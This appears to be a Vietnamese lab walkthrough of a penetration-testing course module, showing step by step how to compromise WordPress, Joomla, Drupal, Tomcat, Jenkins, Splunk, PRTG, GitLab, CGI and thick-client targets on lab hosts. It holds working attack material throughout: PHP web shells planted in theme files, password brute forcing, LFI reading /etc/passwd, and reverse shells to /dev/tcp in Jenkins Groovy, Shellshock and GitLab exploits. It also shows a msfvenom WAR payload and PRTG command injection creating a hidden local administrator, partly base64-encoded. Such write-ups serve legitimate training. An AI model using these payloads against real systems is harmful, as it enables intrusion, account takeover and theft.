


# Application Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`
- `dev.inlanefreight.local`
- `drupal-dev.inlanefreight.local`
- `drupal-qa.inlanefreight.local`
- `drupal-acc.inlanefreight.local`
- `drupal.inlanefreight.local`
- `blog.inlanefreight.local`

+ 0  Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)

+ 0  What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)

Thêm scope vào `/etc/hosts`

```zsh
cat scope_list.txt                                           
app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog.inlanefreight.local
```

```zsh
echo 10.129.42.195 $(paste -sd ' ' scope_list.txt) | sudo tee -a /etc/hosts
10.129.42.195 app.inlanefreight.local dev.inlanefreight.local drupal-dev.inlanefreight.local drupal-qa.inlanefreight.local drupal-acc.inlanefreight.local drupal.inlanefreight.local blog.inlanefreight.local
```

Quét scope với nmap

```zsh
mkdir nmap; cd nmap
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL ../scope_list.txt -vv
```

Chụp màn hình với `eyewitness`

```zsh
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

Như vậy eyewitness sẽ tạo một file `.db` là `ew.db`


Chạy `aquatone`

```zsh
cat web_discovery.xml | /opt/aquatone -nmap
```

`Pages by Similarity`


# WordPress - Discovery & Enumeration

#### Questions
+ 0  Enumerate the host and find a flag.txt flag in an accessible directory.

```zsh
wpscan --url http://blog.inlanefreight.local -e --api-token Tg......
```

```zsh
[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```


+ 0  Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).

Truy cập vào bài viết đầu tiên: `http://blog.inlanefreight.local/?p=1`

Xem nguồn trang và thấy có plugin sau:


+ 0  Find the version number of this plugin. (i.e., 4.5.2)

Truy cập vào: http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt


# Attacking WordPress

#### Questions
vHosts needed for these questions:

- `blog.inlanefreight.local`

+ 0  Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?

```zsh
[i] User(s) Identified:

[+] by:
                                                                        admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

+ 0  Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.

```zsh
wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

+ 0  Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.


Payload:

```url
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


```zsh
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

+ 0  Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.

Đăng nhập với người dùng `douge` tại `/wp-login.php`

Truy cập vào `Theme Editor`


Chọn theme khác có trang 404.php, ở đây tôi dùng `Twenty Nineteen`


Thêm phần này vào đầu file:

```php
system($_GET['cmd']);
```


Sau đó payload sẽ là:

```url
view-source:http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat%20../../../flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

# Joomla - Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`

+ 0  Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)

```zsh
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml                                                    
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.10.0</version>
        <creationDate>August 2021</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
```

+ 0  Find the password for the admin user on http://app.inlanefreight.local

```zsh
sudo python3 /opt/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 admin:turnkey
```

# Attacking Joomla

#### Questions
vHosts needed for these questions:

- `dev.inlanefreight.local`

+ 0  Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

Đăng nhập với `admin:admin`


Truy cập vào `http://dev.inlanefreight.local/administrator/index.php?option=com_plugins&view=plugins`

Disable tiện ích này đi:


Chọn `Templates` -> `Templates` -> Template đang dùng (Được đánh dấu sao ở mục Style)


Tôi sẽ sửa file `error.php`


```zsh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?e3c230597dc6f83fd9b03394c053c91b=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt 
j00mla_c0re_d1rtrav3rsal!
```

# Drupal - Discovery & Enumeration
#### Questions
vHosts needed for these questions:

- `drupal.inlanefreight.local`
- `drupal-qa.inlanefreight.local`

+ 0  Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local

Truy cập vào `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`


# Attacking Drupal

#### Questions
vHosts needed for these questions:

- `drupal-qa.inlanefreight.local`
- `drupal-dev.inlanefreight.local`

+ 0  Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.

Chúng ta biết được rằng phiên bản này là 7.30, một phiên bản drupal khá cũ, vậy hãy thử khai thác RCE bằng nhiều cách.
### Leveraging the PHP Filter Module

Đăng nhập với thông tin xác thực: `admin:admin`

Tại `modules`, kiểm tra xem liệu `PHP filter` đã được bật hay chưa, nếu chưa hãy enable module này và save configuration.


Chọn `Add content` -> `Basic page`


Tạo trang mới có chứa payload:


Và chúng ta có RCE:


Lụm cái flag:

```
http://drupal-qa.inlanefreight.local/node/3?93280687b2335b45acb180ce9340cb2f=cat%20../drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

### Uploading a Backdoored Module

Chúng ta sẽ upload một module độc hại nhằm thực thi mã từ xa.

Trước hết tải xuống một module từ trang chủ:

```zsh
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Giải nén ra và đổi tên:

```zsh
tar xvf <filename>

mv <foldername> capcha
```


Tạo file payload `shell.php`


Tạo file `.htaccess`

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Tiến hành nén lại thành module

```zsh
mv .htaccess shell.php capcha

tar cvf capcha.tar.gz capcha
```


Do phiên bản của `drupal-qa.inlanefreight.local` không có mục uploads module hoặc tôi không tìm thấy :v nên tôi sẽ thử với `drupal-dev` cũng không có luôn :v

#### Drupalgeddon

Tạo tài khoản với quyền admin:

```zsh
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u PuddingSudo -p password
```


#### Drupalgeddon2


Chúng ta upload một file .php


#### Drupalgeddon3

Tải xuống exploit từ exploitdb, di chuyển nó vào modules của metasploit:

```zsh
sudo mv 44557.rb /usr/share/metasploit-framework/modules/exploits/multi/http/drupal_drupageddon3.rb
```

Reload lại modules

```zsh
sudo msfconsole -q

msf6 > reload_all
```

Tiến hành khai thác:

Drupal_SESSION sẽ là cookie của chúng ta khi đăng nhập với quyền admin


```zsh
use exploit/multi/http/drupal_drupageddon3

msf6 exploit(multi/http/drupal_drupageddon3) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.82.231
msf6 exploit(multi/http/drupal_drupageddon3) > set vhost drupal-qa.inlanefreight.local
vhost => drupal-dev.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_node 1
drupal_node => 1
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo
drupal_session => SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo

```


# Tomcat - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `app-dev.inlanefreight.local`
- `web01.inlanefreight.local`

+ 0  What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?

Truy cập vào `http://web01.inlanefreight.local:8180/docs/`


+ 0  What role does the admin user have in the configuration example?


# Attacking Tomcat

#### Questions
vHosts needed for these questions:

- `web01.inlanefreight.local`

+ 0  Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?

Chọn module brute force:


Tôi sẽ set thêm proxy thông qua `burp` để có thể thử thêm bruteforce với burpsuite

```zsh
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
rhosts => 10.129.201.58
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set vhost web01.inlanefreight.local
vhost => web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8081
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set proxies HTTP:127.0.0.1:8080
proxies => HTTP:127.0.0.1:8080
```

```zsh
[+] 10.129.201.58:8180 - Login Successful: tomcat:root
```

+ 0  What is the password?

BruteForce với Burpsuite Pro:

Như ở trên tôi đã bật sẵn burpsuite và giữ lại request mà msf đã gửi đi.


Gửi nó tới `intruder`. Ở đây theo như mặc định có 2 file username và password. Tuy nhiên tôi không muốn gộp chúng lại thành một và sau đó mã hóa base64 nên tôi chọn option `clusted bomb attack`
và thêm sẵn 2 biến để fuzz:


Tại payload position 2, chúng ta chọn `tomcat_mgr_default_pass.txt`


Tại payload position 1, chúng ta chọn `tomcat_mgr_default_users.txt`


Tuy nhiên định dạng đúng phải là `username:password`, vậy tôi sẽ thêm rule cho username bằng cách chọn payload postion 1 -> thêm kí tự `:` ở cuối username (add suffix), sau đó mã hóa base64.


Bỏ chọn encoding


Đối với `password` ta chọn `payload position 2` sau đó chỉ việc thêm rule base64 encode. 


Bỏ chọn encoding


Tuy nhiên cách này không thành công vì chúng ta buộc phải encode một chuỗi liền nhau, nếu không kết quả sẽ như này: `dG9tY2F0Og==YWRtaW4=`. Do đó buộc ta phải gộp lại thành một danh sách tách nhau bởi `:` với burpsuite hoặc `python` hoặc `bash`.

Chuyển sang `sniper attack`


Chọn payload type là `custom iterator`, position 1 load file username:


Thêm dấu `:` ngăn cách với password


Tại position 2, load file password:


Cuối cùng, thêm rule encode base64, nhớ bỏ chọn url encode ở cuối


Mặc định base64 encode của burp suite sẽ tự thêm kí tự newline, hãy cẩn thận.

+ 1  Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt

Tạo payload

```zsh
msfvenom -p java/jsp_shell_reverse_tcp lhost=tun0 lport=4444 -f war -o 28afbc9529a8855939ff7d2d8ad9295c.war
```

Đăng nhập với `tomcat:root`

Tải shell lên tomcat


Cấu hình trên msfconsole

```zsh
msf6 exploit(multi/handler) > set lhost tun0 
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > run
```

Lấy shell


# Jenkins - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

 Authenticate to  with user "admin" and password "admin"

+ 1  Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.


# Attacking Jenkins

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

+ 0  Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory

Chạy đoạn mã sau: trong `http://jenkins.inlanefreight.local:8000/script`

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.66/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


# Splunk - Discovery & Enumeration

#### Questions
+ 0  Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).

Quét host với nmap:

```zsh
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Truy cập vào `https://10.129.201.50:8089/`


# Attacking Splunk

#### Questions
+ 0  Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.

Chỉnh IP và port trong run.ps1 nếu là windows, rev.py nếu là linux


Chỉnh để tắt rev.py vì host là windows


Nén file lại và tải lên

```zsh
tar cvzf 28afbc9529a8855939ff7d2d8ad9295c.tar.gz reverse_shell_splunk 
reverse_shell_splunk/
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
```

Truy cập `https://10.129.201.50:8000/en-US/app/launcher/home`

Chọn Manage Apps (Góc bên trái) -> Install app from file


Tải file lên và nhận shell


# PRTG Network Monitor

#### Questions
+ 1  What version of PRTG is running on the target?

```zsh
sudo nmap -sV 10.129.201.50 -vv
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
8080/tcp open  http          syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Như vậy PRTG đang chạy ở port 8080

Truy cập vào trang chủ và view source


+ 0  Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.

Đăng nhập với thông tin `prtgadmin:Password123`


Chọn Setup -> Account Settings -> Notifications -> Add new notification


Đặt tên cho thông báo, cuộn xuống và đánh dấu vào ô bên cạnh `EXECUTE PROGRAM`. Bên dưới `Program File`, chọn `Demo exe notification - outfile.ps1`từ danh sách. Cuối cùng, trong trường tham số, nhập lệnh. Tôi sẽ thêm người dùng quản trị cục bộ mới bằng cách nhập `test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add`. Trong quá trình đánh giá thực tế, chúng ta có thể muốn thực hiện một thao tác nào đó mà không làm thay đổi hệ thống, chẳng hạn như tạo shell ngược hoặc kết nối với C2. Cuối cùng, nhấp vào `Save`.

```powershell
test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add
```

Hoặc dùng powershell base64

```powershell
test.txt; powershell -encodedcommand bmV0IHVzZXIgU29yYVRzdW1pIFB3bmVkX2J5X1NvcmFUc3VtMSEgL2FkZDtuZXQgbG9jYWxncm91cCBhZG1pbmlzdHJhdG9ycyBTb3JhVHN1bWkgL2FkZAo=
```


Sau khi thêm vào nó sẽ ở đây:


Để kích hoạt payload, chúng ta phải đặt lịch chạy cho thông báo.

Trước hết phải đồng bộ thời gian với máy chủ:

```zsh
sudo ntpdate -s 10.129.201.50
```

Nếu không được ta phải canh thời gian bằng thanh thời gian bên dưới footer:


Tiếp theo, tạo một lịch chạy thông báo: Vào Account settings -> Schedules -> Add a new schedule

Đặt tên và thời gian, chọn options  `Use list of period definitions `
Đặt thời gian theo định dạng `ww:hh:mm-ww:hh:mm` định dạng thời gian là 24h không `am/pm`
Ví dụ `tu:04:05-tu:04:06`


Sau khi lưu lại nó sẽ xuất hiện ở đây:


Quay lại mục `notifications` chọn vào edit notification mà ta chèn mã độc rồi chọn lịch schedule mà ta vừa thiết lập


Chờ kết quả hoặc nhấn test notification.
### Khai thác với metasploit

```zsh
msf6 exploit(windows/http/prtg_authenticated_rce) > set admin_password Password123
admin_password => Password123
msf6 exploit(windows/http/prtg_authenticated_rce) > set lhost tun0
lhost => 10.10.14.66
msf6 exploit(windows/http/prtg_authenticated_rce) > set lport 1234
lport => 1234
msf6 exploit(windows/http/prtg_authenticated_rce) > set rhosts 10.129.201.50
rhosts => 10.129.201.50
msf6 exploit(windows/http/prtg_authenticated_rce) > set rport 8080
rport => 8080
```


Có thể có một số cách không được, chúng ta sẽ chia làm 2 notifications để tránh bị lỗi câu lệnh

Đầu tiên là thêm user mới

```powershell
C:\Users\Public\tester.txt;net user SoraTsumi SoraTsum1! /add
```


Tiếp theo là thêm vào nhóm local admin

```powershell
C:\Users\Public\tester.txt;net localgroup administrators /add SoraTsumi
```


Thiết lập schedule cho cả hai.


Lưu ý nếu payload không hoạt động hãy sử dụng tính năng test notification.

Kiểm tra sau khi chạy câu lệnh khi tôi đang có revershell từ msfconsole

```powershell
net user
```



```zsh
nxc rdp 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!' --local-auth
```


Chúng ta hoàn toàn có thể lấy phiên rdp:

```zsh
xfreerdp3 /v:10.129.201.50 /u:SoraTsumi /p:'SoraTsum1!' /drive:linux,/mnt/share
```


Hoặc winrm

```zsh
evil-winrm -i 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!'
```


# osTicket

#### Questions
vHosts needed for these questions:

- `support.inlanefreight.local`

+ 1  Find your way into the osTicket instance and submit the password sent from the Customer Support Agent to the customer Charles Smithson .

Tại `http://support.inlanefreight.local/scp/login.php`

Đăng nhập với `kevin@inlanefreight.local` và mật khẩu `Fish1ng_s3ason!`

Tại mục Users, ta thấy có một phiếu hỗ trợ


# Gitlab - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `gitlab.inlanefreight.local`

+ 1  Enumerate the GitLab instance at http://gitlab.inlanefreight.local. What is the version number?

Truy cập vào `gitlab` đăng kí tài khoản mới và truy cập `/help`


+ 1  Find the PostgreSQL database password in the example project.

Duyệt qua `gitlab.inlanefreight.local/explore`


Kiểm tra qua mã nguồn, ở dự án thứ hai ta phát hiện xml của mysql và potgreSQL


# Attacking GitLab

#### Questions
vHosts needed for these questions:

- `gitlab.inlanefreight.local`

+ 1  Find another valid user on the target GitLab instance.

### Username Enumeration

```zsh
python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ --wordlist /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt
```


+ 1  Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.

```zsh
python3 49951.py -u SoraTsumi -p 'Password123!' -t http://gitlab.inlanefreight.local:8081/ -c 'bash -i >& /dev/tcp/10.10.14.123/5555 0>&1'
```


# Attacking Tomcat CGI

#### Questions
+ 0  After running the URL Encoded 'whoami' payload, what user is tomcat running as?

Quét nmap

```zsh
sudo nmap -sCV -p- -T 4 --min-rate 3000 10.129.205.30 --open -vv
```

Tomcat chạy ở cổng 8080


Tiến hành fuzing để tìm tập lệnh CGI

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u 'http://10.129.205.30:8080/cgi/FUZZ' -e .bat,.cmd
```


Thực thi mã từ xa:

```zsh
curl 'http://10.129.205.30:8080/cgi/welcome.bat?&C%3A%5CWindows%5Csystem32%5Cwhoami.exe' 
Welcome to CGI, this section is not functional yet. Please return to home page.
feldspar\omen
```


# Attacking Common Gateway Interface (CGI) Applications - Shellshock
#### Questions
+ 0  Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.

Fuzzing cgi file:

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u 'http://10.129.72.173/cgi-bin/FUZZ.cgi'

access                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 266ms]
```

Lấy reverse shell

```zsh
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.123/3333 0>&1' -s  http://10.129.72.173/cgi-bin/access.cgi
```


# Attacking Thick Client Applications
#### Questions

 RDP to 10.129.228.115 (ACADEMY-ACA-PIVOTAPI) with user "cybervaca" and password "&aue%C)}6g-d{w"

+ 0  Perform an analysis of C:\Apps\Restart-OracleService.exe and identify the credentials hidden within its source code. Submit the answer using the format username:password.


Chạy `procmon64` từ `C:\TOOLS\ProcessMonitor` và bật capture.

Chạy File cần phân tích trong `C:\Apps\`


Trong khi chương trình chạy, ta có thể bật tasklist lên để xem PID của nó, để lọc dễ hơn.


Sau khi chạy xong, mở vào procmon64 và kiểm tra.

Chương trình này tạo một file: `C:\Users\cybervaca\AppData\Local\Temp\2\D9CC.tmp`


Tuy nhiên nó đã bị xóa khi kết thúc chương trình.
Chúng ta sẽ chỉnh quyền để file không bị xóa.


Disable inheritiance


Chọn convert...


Sau đó chọn Edit -> Show Advance Permissions -> Bỏ chọn 2 dòng Delete


Quay trở lại thư mục `temp`, thấy rằng các file được tạo đã ở đây


Đọc mã nguồn của file `.bat`.

Ở cuối file, chúng ta thấy nó đang cố gắng xóa một file powershell `monta.ps1` 


Sửa lại để không xóa file nữa:


Sau đó ta thực thi file .bat và tìm `monta.ps1`


```powershell
$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) 
```

File này sẽ chuyển đổi nội dung trong `C:\ProgramData\oracle.txt` thành file `.exe`

**NOTE: Muốn vào được powershell, chúng ta phải trả lại Security Settings cho thư mục temp mà chúng ta đã sửa.**


Vào `x64dbg.exe`

Tại options -> Preferences chỉnh setting như sau:


By unchecking the other options, the debugging will start directly from the application's exit point, and we will avoid going through any `dll` files that are loaded before the app starts. Then, we can select `file` -> `open` and select the `restart-service.exe` to import it and start the debugging. Once imported, we right click inside the `CPU` view and `Follow in Memory Map`


Tìm MAP với Protection `RW`


Nhấn đúp vào để phân tích


If we double-click on it, we will see the magic bytes `MZ` in the `ASCII` column that indicates that the file is a [DOS MZ executable](https://en.wikipedia.org/wiki/DOS_MZ_executable).


Quay trở lại tab Memory Map, Chúng ta chọn MAP mà đã phân tích -> Dump Memory to File

C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin

```powershell
C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin
<SNIP>
"#M
z\V
).NETFramework,Version=v4.0,Profile=Client
FrameworkDisplayName
.NET Framework 4 Client Profile
<SNIP>
```

Reading the output reveals that the dump contains a `.NET` executable. We can use `De4Dot` to reverse `.NET` executables back to the source code by dragging the `restart-service_00000000001E0000.bin` onto the `de4dot` executable.


Mở `dnspy` open file cleaned và tìm file main:


Có được tên tài khoản và mật khẩu reset dịch vụ.

```C#
process.StartInfo.UserName = "svc_oracle";
	process.StartInfo.UseShellExecute = false;
	SecureString secureString = new SecureString();
	string text = "#oracle_s3rV1c3!2010";
```

# Exploiting Web Vulnerabilities in Thick-Client Applications

#### Questions

 RDP to 10.129.228.115 (ACADEMY-ACA-PIVOTAPI) with user "cybervaca" and password "&aue%C)}6g-d{w"

+ 0  What is the IP address of the eth0 interface under the ServerStatus -> Ipconfig tab in the fatty-client application?

Thông tin đăng nhập được cấp:  `qtc / clarabibi`


Chúng ta sẽ kiểm tra với wireshark. Địa chỉ của chúng ta đang là `172.16.17.115`


Như vậy chúng ta đang yêu cầu đến cổng 8000 thay vì 1337.

Giải nén file `fatty-client.rar`


Tìm kiếm file config cổng 8000


Sửa 8000 thành 1337



Để loại bỏ hàm băm kí xác thực ứng dụng, trước hết ta xóa các file này trong `META-INF`


Tiếp tục, cần xóa giá trị băm trong `META-INF/MANIFEST.MF`


Sau khi chỉnh sửa, ta sẽ build lại file jar mới

```powershell
PS C:\Apps> cd .\fatty-client\
PS C:\Apps\fatty-client> jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
PS C:\Apps\fatty-client>
```

Chúng ta đăng nhập với ứng dụng mới:


Chúng ta không có quyền admin, hầu hết các chức năng đã bị hạn chế.


Tại FileBrowser, có vẻ như có một bộ lọc ngăn việc xảy ra LFI.


Máy chủ sẽ lọc ra ký tự `/` từ dữ liệu đầu vào. Hãy dịch ngược ứng dụng bằng [JD-GUI](http://java-decompiler.github.io/) , bằng cách kéo và thả `fatty-client-new.jar`vào `jd-gui`.

Sau đó chọn File -> Save all source


GIải nén, truy cập vào đọc mã nguồn: `C:\TOOLS\fatty-client-new.jar.src\htb\fatty\client\methods`


The `showFiles` function takes in one argument for the folder name and then sends the data to the server using the `sendAndRecv()` call. The file `fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java` sets the folder option.

ClientGuiTest.java


Chúng ta cần thay đổi giá trị của `currentFolder` để liệt kê thư mục tại vị trí khác. Ví dụ đổi thành `..`

```java
ClientGuiTest.this.currentFolder = "..";
/*     */             try {
/* 374 */               response = ClientGuiTest.this.invoker.showFiles("..");
```

Tiếp theo, biên dịch tệp `ClientGuiTest.Java`.

```powershell
PS C:\Apps> javac -cp fatty-client-new.jar C:\Tools\fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

Thao tác này sẽ tạo ra một số tệp lớp. Hãy tạo một thư mục mới và trích xuất nội dung `fatty-client-new.jar`vào đó.

```powershell
PS C:\Apps> mkdir raw


    Directory: C:\Apps


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2025   6:32 PM                raw


PS C:\Apps> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

Đi đến thư mục `raw` và giải nén `fatty-client-new-2.jar`bằng cách nhấp chuột phải và chọn `Extract Here`. Ghi đè lên bất kỳ tệp `htb/fatty/client/gui/*.class` hiện có nào bằng các tệp lớp đã cập nhật.


```powershell
PS C:\Apps> mv -Force C:\tools\fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

Tiếp theo build tệp `jar` mới

```powershell
PS C:\Apps> cd raw
PS C:\Apps\raw> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

Vào `FileBrowser -> Config`


Như vậy là thành công. Bây giờ chúng ta có thể thấy nội dung của thư mục configs/../. Các tệp fatty-server.jar và start.sh trông khá thú vị. Có vẻ như fatty-server.jar là tệp xử lý của server, lấy tệp này về phân tích mã nguồn có vẻ sẽ rất hay.

We can modify the `open` function in `fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java` to download the file `fatty-server.jar` as follows.

```java
import java.io.FileOutputStream;

public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
